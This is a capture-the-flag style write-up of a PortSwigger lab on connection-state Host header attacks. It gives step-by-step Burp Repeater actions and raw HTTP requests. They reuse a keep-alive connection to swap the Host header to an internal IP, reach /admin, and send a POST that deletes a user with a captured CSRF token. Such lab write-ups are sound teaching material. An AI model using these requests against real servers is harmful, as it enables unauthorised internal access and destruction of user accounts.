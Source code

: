 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/6899ea11-1c92-4caf-9819-8f61fb385738)

## Overview :

- For performance reasons, **many websites reuse connections for multiple request/response cycles with the same client**. Poorly implemented HTTP servers sometimes work on the dangerous assumption that certain properties, such as the H**ost header, are identical for all HTTP/1.1 requests sent over the same connection**. This may be true of requests sent by a browser, but isn't necessarily the case for a sequence of requests sent from Burp Repeater. This can lead to a number of potential issues.

- For example, you may occasionally encounter servers that only perform thorough validation on the first request they receive over a new connection. In this case, you can potentially bypass this validation by sending an innocent-looking initial request then following up with your malicious one down the same connection. 

- Many reverse proxies use the Host header to route requests to the correct back-end. *If they assume that all requests on the connection are intended for the same host as the initial request, this can provide a useful vector for a number of Host header attacks, including routing-based SSRF, password reset poisoning, and cache poisoning*.
  
## Solution :

Send the **GET /** request to repeater. Notice that it uses **HTTP /1.1**.

> `HTTP /1.1` is vulnerable to connection state attacks.Which means that **the server assumes the Host header are identical for all HTTP/1.1 requests sent over the same connection.**
```HTTP
GET / HTTP/1.1
Host: 0ac90054049021528249292600f20060.h1-web-security-academy.net
Cookie: session=Z4ko94GA9SXTJrq89cILbwmRk7myCkNN; _lab=46%7cMCwCFHrCbsCALhmhjiQlGnm38cMVsREQAhQhfSy1AZghqZBthgiDpr68DLfLiypxKYLx90JCV0kTLtyEtDG4yxfuSUEu52bZ6W1Rv3ZUcn3GcLy%2b9GHILN0rLuWPOdmq8YOZXRkcaumDkD009VBluHpx9BjvB1DbzTUbSCQkRjrm7eomdhs%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```

### Connection reuse attack -


**Steps -**

- Send the same request 2 times to repeater tab.
- **Add both the request tabs to a single group.**
- Click on the dropdown near the request group tab & enable `Send group in sequence (single connection)`.
  ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/f487e6a2-8794-4d26-a173-d48d107b0667)



1. Change the `Connection:` header from **close** to **keep-alive**
```http
GET / HTTP/1.1
Host: 0ac90054049021528249292600f20060.h1-web-security-academy.net

Connection: keep-alive
```
2.  Click on the settings near the send button & enable **Enable HTTP /1 connection reuse** option.
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/173e9ba2-ee96-4dc3-988f-0e867482d385)

3. In request 1 tab ,send the request for the first time to establish connection.
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1364f3a9-1265-4dff-906d-0180688e6c25)

4. In request 2, change the `Host:` header from **websecurity.net** to **192.168.0.1**. Here we are abusing the connection reuse attack/connection state attack in _HTTP 1.1_. The server/reverse-proxy assumes that after the first connection , all the requests which are of the same connection will have the same host header. We exploit this to access the internal sites.
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/dec0a87b-a042-4f2a-b79b-eb103a6c739b)

Now we can see that we're redirected to the admin panel.

Now again initiate a request using the original request. Then change the header to 192.168.0.1 & change the url header to */admin*.

**Request -**
```http
GET /admin HTTP/1.1
Host: 192.168.0.1

Connection: keep-alive
```

In the response , we get an form with a _POST_ request to `/admin/delete` endpoint in the admin panel along with the csrf token of admin to delete any user.

```html
<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
                        <input required type="hidden" name="csrf" value="Izf3uvXpYRgLnojzDY7iupMYymW8pBhE">
                        <label>Username</label>
                        <input required type='text' name='username'>
                        <button class='button' type='submit'>Delete user</button>
</form>
```

So send the following POST request to delete the user carlos.

```http
POST /admin/delete HTTP/1.1
Host: 192.168.0.1
Cookie: session=Z4ko94GA9SXTJrq89cILbwmRk7myCkNN; _lab=46%7cMCwCFHrCbsCALhmhjiQlGnm38cMVsREQAhQhfSy1AZghqZBthgiDpr68DLfLiypxKYLx90JCV0kTLtyEtDG4yxfuSUEu52bZ6W1Rv3ZUcn3GcLy%2b9GHILN0rLuWPOdmq8YOZXRkcaumDkD009VBluHpx9BjvB1DbzTUbSCQkRjrm7eomdhs%3d
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://portswigger.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: cross-site
Sec-Fetch-User: ?1
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 53

username=carlos&csrf=Izf3uvXpYRgLnojzDY7iupMYymW8pBhE
```
![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/d54c9b78-a5d5-4f89-ae2b-84ab151f2346)
